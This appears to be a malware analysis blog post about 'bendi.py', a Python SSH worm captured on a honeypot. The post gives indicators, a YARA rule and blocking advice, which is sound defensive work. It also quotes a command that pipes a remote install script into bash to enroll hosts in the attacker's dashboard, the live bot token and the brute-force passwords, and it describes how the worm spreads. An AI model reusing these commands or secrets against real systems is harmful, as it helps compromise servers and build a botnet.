

# bendi.py

Hello Hackers! Today I will be analysing `bendi.py`, a worm that I pulled off my Threat Harbour honeypot. It brute-forces SSH on cloud VPS's, drops a copy of itself, installs the Komari monitoring agent pointed at the attacker's own dashboard, and reports back over Telegram. 

The malware reads its own source code and spreads itself to every host it lands on, so shipping it in the clear is the propagation mechanism. That is very interesting. We can fing the whole operator toolkit, including the bot token, the shared password, and the C2 addresses in the source code itself. 

## Provenance

```text
sha256:     00b374d5249b32ab298f86c2137962e6bf1f71e03c4db8e3ae169b601480d730
md5:        8fd10ab5b189d5b42b4d41e9335cbe9e
sha1:       26f2d786e5c84cd57f3fc040ade95cc4578c6be9
size:       28390 bytes
type:       Python Script
source:     Threat Harbour (Cowrie based Honeypot)
family:     Python/Agent.BQD trojan
collected:  19/09/2026
handling:   static only — sample never executed
tools:      file, Google Translate, Code Editor, Hybrid Analysis
```

I found this sitting in plaintext Python with no obfuscation at all, which is basically an invitation. The Chinese in the file is only comments and print statements. I ran it through Google Translate to get readable comments. 

## Executive summary

- A Python SSH worm targeting cloud and VPS hosts, scanning **port 22 and 5522** with a single shared credential pair.
- Four separate channels can be inferred from the file, `sou.pp.ua` is the C2 API (infected-host dedupe), `del.sou.pp.ua` stages target and exclude lists, `sexy.pp.ua` is the actual botnet C2 (a Komari dashboard), and Telegram is used for propagation reports and scan exfil.
- The Komari dashboard was still live when I wrote this. Everything else was dead. 
- It installs two `systemd` services (`Restart=always`, `multi-user.target`) into `/root/.s/` and `/opt/monitor/` and never cleans up after itself.

## Structure and embedded content

Basically it is a single python script that makes multiple other files and executes those. Effectively, we can split the whole thing into 6 files:

1. The main worm script - bendi.py
2. ssh_scanner.py
3. run_scan.sh
4. monitor_script.py
5. ip_port_extractor.py
6. filter_files.py

Four of them ship as string literals inside a `SCANNER_FILES` dict, the other two come from a `provisioner_files` dict:

```py
SCANNER_FILES = {
    "ssh_scanner.py": textwrap.dedent(""""""),
    "filter_files.py": textwrap.dedent(""""""),
    "ip_port_extractor.py": textwrap.dedent(""""""),
    "run_scan.sh": textwrap.dedent(""""""),
}
```
```py
MONITOR_SCRIPT_CONTENT = textwrap.dedent("""""")
```

```py
try:
    with open(__file__, 'r', encoding='utf-8') as f:
        bendi_py_source_code = f.read()
except Exception as e:
    print(f"❌ Fatal error: Unable to read own source code ({__file__}). Error: {e}")
    return

provisioner_files = {
    "bendi.py": bendi_py_source_code,
    "monitor_script.py": MONITOR_SCRIPT_CONTENT
}
```

That self-read is the main propagation mechanism. It `open()`s `__file__`, reads itself, and drops it as `bendi.py`. The helper scripts are then written to disk, two `systemd` units are installed, and the box is done.

```bash
PYTHON_EXEC="/root/.s/venv/bin/python3"
PORTS="22,5522"
IP_RANGES_FILE="ip_ranges.txt"
MASSCAN_OUTPUT_FILE="masscan_results.txt"
PROCESSED_FILE="processed_ips.txt"
FINAL_FILTERED_FILE="filtered_ips_final.txt"
FINAL_OUTPUT_DIR="/root/.a/"
EXCLUDE_FILE="del.txt"
```

## Configuration and indicator extraction

The most obvious indicator is the exposed hardcoded Telegram Bot information and also its reference to suspicious domains

```py
SCANNER_DIR = "/root/.s/"
PROVISIONER_DIR = "/opt/monitor"
PROVISIONER_SERVICE_NAME = "file-monitor.service"
PROVISIONER_VENV_PATH = f"{PROVISIONER_DIR}/venv"
LOG_FILE_PATH = "/var/log/vps-monitor.log"
TARGET_SERVER_PASSWORDS = "LeitboGi0ro,123@@@"
TELEGRAM_BOT_TOKEN = "7431501378:AAHTIaWSQ1Gcqp5ovhY6-6L1TG8Npubq1Ug"
TELEGRAM_CHAT_ID = "743493786"
VPS_IDENTIFIER = "[☢️All☢️]"
```

### The four channels

| Channel | Role | Where |
|---|---|---|
| `sou.pp.ua` | C2 API - checks for hosts already infected | `/check_ip.php`, `/add_ip.php` |
| `del.sou.pp.ua` | Staging - target ranges and the exclude list | `/ip_ranges.txt`, `/del.txt` |
| `sexy.pp.ua` | **Botnet C2** - the operator's Komari dashboard | - |
| Telegram | Propagation reports + scan results exfil | `api.telegram.org/bot<token>/sendMessage` |

The API is worth a note because the protocol is very simple. It shells out to `curl` and string-compares stdout:

```py
def check_if_processed(ip_port):
    result = subprocess.run(['curl', '-s', f"{API_CHECK_URL}?target={ip_port}"], capture_output=True, text=True, timeout=15)
    if result.stdout.strip() == "PROCESSED":
        return True
    return False
```

## Propagation and the Komari agent

This is the actual spreading routine:

```py
install_command = "bash <(curl -sL https://raw.githubusercontent.com/komari-monitor/komari-agent/refs/heads/main/install.sh) -e https://sexy.pp.ua --auto-discovery DsR94pYWmSUpC3nxxxxxxxxx"
success, output = execute_remote_command(ssh_client, install_command)
results['Install Agent'] = "✅ Success" if success else "❌ Failed"
# --- (New) Register to API after successfully installing Agent ---
if success:
    add_to_processed(target_host_info)
    results['Central registration'] = "✅ Success"
```

I have redacted the enrollment key, since it can lead to my honeypot's details being leaked. 

```text
hxxps://sou[.]pp[.]ua/       - Unaccessible
hxxps://del[.]sou[.]pp[.]ua/ - Unaccessible
hxxps://sexy[.]pp[.]ua/      - **Accessible** (Komari Dashboard)
```

-----

This is what the root page looks like:


 
And this is the admin dashboard (needs login credentials):
 



-----

Then it drops two services that keep running:

```text
Description=Scanner Runner Service ({SCANNER_DIR}run_scan.sh)
Description=File Monitor and Propagation Service
```

Both with `Restart=always` and `WantedBy=multi-user.target`, the first at `/etc/systemd/system/`, the second executing from the venv it creates in `/opt/monitor/venv/`. Before any of that it runs an `apt-get install` for `python3 python3-pip python3-venv masscan libpcap-dev screen curl procps coreutils` — `masscan` plus a Python venv under a hidden dotdir is a pairing you will not see from legitimate admin tooling.

## Working Principle

Execution is a five-stage loop that closes on itself. 

On first run main() reads its own source code, installs all the dependencies, drops the files and creates the services. 
From there the two services split the work, run_scan.sh loops forever, masscaning the operator's ip_ranges.txt on ports 22 and 5522, piping hits through ip_port_extractor.py into processed_ips.txt. 

Then filter_files.py filters targets that have been attacked already and then those get split into per-credential queue files at /root/.a/LeitboGi0ro.txt and /root/.a/q123.txt. 

The monitor reads each queued ip:port, asks sou.pp.ua/check_ip.php whether the host has already been attacked, then opens a Paramiko session as root against the two hardcoded passwords and SFTPs itself to /tmp/bendi.py. Then it makes sure python3 exists, runs it, and deletes the remote copy. Because that payload is the worm itself, this whole process keeps repeating on new hosts.  

After that succeeds, the monitor install the Komari agent against sexy.pp.ua for persistent operator visibility, POST the target to add_ip.php to claim it, and send a Markdown summary of the run to a Telegram bot. 

## Hybrid Analysis — third-party sandbox reports

The sample is **never executed here**. Everything in this section is observation on from `Hybrid Analysis`

```text
Report:     https://hybrid-analysis.com/sample/00b374d5249b32ab298f86c2137962e6bf1f71e03c4db8e3ae169b601480d730
Verdict:    Malicious
Score:      54/100
Families:   Python/Agent.BQD trojan
Techniques: T1590, T1106, T1059.006, T1543.002
network:    sou.pp.ua
sandbox:    https://hybrid-analysis.com/sample/00b374d5249b32ab298f86c2137962e6bf1f71e03c4db8e3ae169b601480d730/6a155baa78e58b8ded0988c1
            https://hybrid-analysis.com/sample/00b374d5249b32ab298f86c2137962e6bf1f71e03c4db8e3ae169b601480d730/69e4d647b7d7a519020f7b8c
```

The verdict matches my own read. But I feel 54/100 is low for something that installs persistence and enrolls a host into a botnet. 

### Network

```text
sou[.]pp[.]ua                /check_ip.php   /add_ip.php
del[.]sou[.]pp[.]ua          /ip_ranges.txt  /del.txt
sexy[.]pp[.]ua               Komari panel, LIVE at time of writing
api[.]telegram[.]org         /bot<token>/sendMessage
```

### Detection ideas

```yara
rule bendi_VPS_Worm
{
    meta:
        description = "bendi botnet"
        date        = "2026-09-26"
        hash        = "00b374d5249b32ab298f86c2137962e6bf1f71e03c4db8e3ae169b601480d730"
        source      = "https://hybrid-analysis.com/sample/00b374d5249b32ab298f86c2137962e6bf1f71e03c4db8e3ae169b601480d730"

    strings:
        $svc1  = "file-monitor.service"
        $svc2  = "Scanner Runner Service"
        $svc3  = "File Monitor and Propagation Service"
        $dir1  = "/root/.s/"
        $dir2  = "/opt/monitor/venv"
        $cfg1  = "PROVISIONER_SERVICE_NAME"
        $cfg2  = "TARGET_SERVER_PASSWORDS"
        $cfg3  = "VPS_IDENTIFIER"
        $ports = "22,5522"
        $kom   = "komari-monitor/komari-agent"
        $tg    = "api.telegram.org/bot"

    condition:
        3 of them
}
```

## Defensive value

Block the three `pp.ua` hostnames at the proxy and alert on the two `systemd` service names. The panel hostname is the highest value block here because it is the one that is still live.

## Conclusion

We just analysed an SSH worm with a plaintext source, shared password, and no cleanup. But a working propagation mechanism behind it and a botnet panel still online. The next piece of work someone who is interested in analysing further would do is grab `ip_ranges.txt` and `del.txt` from a live drop, because that tells us the operator's scan scope, and check whether other operators are registering into the same `check_ip.php`.

---

**Tools used:** file, Hybrid Analysis, Google Translate, a code editor

**References:** [Malware Bazaar](https://bazaar.abuse.ch/sample/00b374d5249b32ab298f86c2137962e6bf1f71e03c4db8e3ae169b601480d730/), [Hybrid Analysis](https://hybrid-analysis.com/sample/00b374d5249b32ab298f86c2137962e6bf1f71e03c4db8e3ae169b601480d730), [Komari](https://github.com/komari-monitor/komari-agent)
